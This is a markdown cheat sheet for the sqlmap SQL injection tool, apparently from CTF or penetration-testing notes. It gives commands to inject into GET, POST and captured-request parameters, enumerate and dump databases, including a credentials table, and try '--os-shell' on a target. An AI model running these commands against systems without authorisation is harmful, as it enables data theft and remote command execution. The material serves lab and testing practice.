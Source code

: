 # SQLMap

Reference:

* https://github.com/sqlmapproject/sqlmap/wiki/Usage


## GET url param:

```bash
sqlmap -u http://10.10.10.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```

## POST body:

```bash
sqlmap -u http://10.10.10.10/login.php --method POST --data "username=blah&password=blah&submitButton=Log+In" -p "password"
```

## Captured request (usually POST/PUT):

Save a burp request to a file named `request.txt`:

```bash
sqlmap -r request.txt -p someparam
```

If there is a `Host:` header, then sqlmap will figure out the target on its own. 

Parameters including cookies should also be detected (probably), but don't rely on this to work.

### Example credentials search workflow:

Get database names:

```bash
sqlmap -r request.txt --dbs
```

Get tables of a database:

```bash
sqlmap -r request.txt -D admin --tables
```

Dump content of a table:

```bash
sqlmap -r request.txt -D "admin" -T users --dump
```


## Common Params
### Parameters you want to test specfically

```bash
-p "param,param2"
```

### Discover databases:
```bash
--dbs
```

### Discover Tables:
```bash
-D "database_name"
--tables
```

### Table content:
```bash
-T <table_name>
--dump
```

### Attempt to gain Shell:
```bash
--os-shell
```

### Specify known database type:
```bash
--dbms=mysql
```

### Risk and level
```bash
--level <int>
--risk <int>
```

level max is 5, 

* level 1 default
* level 2 adds HTTP Cookie header testing
* level 3 adds HTTP User-Agent/Referer headers testing
* level 4 ????
* level 5 adds Host header testing

risk max is 3

* risk 1 default
* risk 2 adds heavy query time-based SQL injections
* risk 3 adds OR-based SQL injection tests (might damage database content)


### Get rid of cached session data

Sqlmap tends to cache a lot of data, this might be annoying if there was a false positive or if you changed your captured request file. Do this to get rid of it:

```bash
--flush-session
--fresh-queries
```

### (Burp) Proxy
```bash
-proxy http://localhost:8080
```

### Technique

* Stacked queries (S)
* Union query based (U)
* Error based (E) 
* Inline queries (I)
* Boolean blind (B)
* Time based blind (T)

Specify single technique or technique order

```bash
--technique U
--technique=BEUSTQ
```

For union based attacks you can specify the number of unions cols to test if the default is too small:

```bash
--union-cols=11
--union-cols=1-20
```

### Cookie
```bash
--cookie "cookiename=cookiedata"
```

### Unicode Nonsense

CTFs sometimes do this in order to make it harder for you, they throw in some weird characters which are hard to work with on a utf-8 shell. One of the following parameters might help.

Convert output to hex during retrieval:
```bash
--hex
```

Redump entries having unknown character marker (?)
```bash
--repair
```

Character encoding for data retrieval
```bash
--encoding=
```

### Before and after injection point

If you consistently want to add some string data before/after the injected paylods. For example some brackets that need to be opened/closed to make the injection work.

```bash
--prefix "<str>"
--suffix "<str>"
```

For those who have not paid attention in school, prefix is before, suffix is after.


